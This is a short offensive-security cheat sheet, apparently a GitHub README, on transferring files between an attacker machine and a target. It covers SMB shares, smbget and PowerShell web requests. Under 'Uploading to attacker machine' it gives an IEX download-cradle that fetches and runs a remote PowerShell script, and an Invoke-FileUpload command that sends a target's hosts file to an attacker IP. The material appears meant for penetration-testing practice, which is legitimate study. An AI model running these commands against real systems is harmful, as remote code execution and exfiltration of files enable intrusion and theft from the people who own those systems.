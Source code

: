 # Links to CheatSheets
https://guide.offsecnewbie.com/transferring-files


# SMB Server
```bash
impacket-smbserver share_name /path/to/share
```
copy files
```powershell
Copy-Item -Path "\\10.10.10.10\test\file.txt" -Destination "C:\destination\file.txt"
copy "\\10.10.10.10\test\file.txt" "C:\destination\file.txt"
```


# From target share
```bash
smbget --recursive smb://10.10.10.100/sharename
```

# Web
```bash
Invoke-WebRequest -Uri $url -OutFile $outputPath
```

## Uploading to attacker machine
```bash
py -m uploadserver
```
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```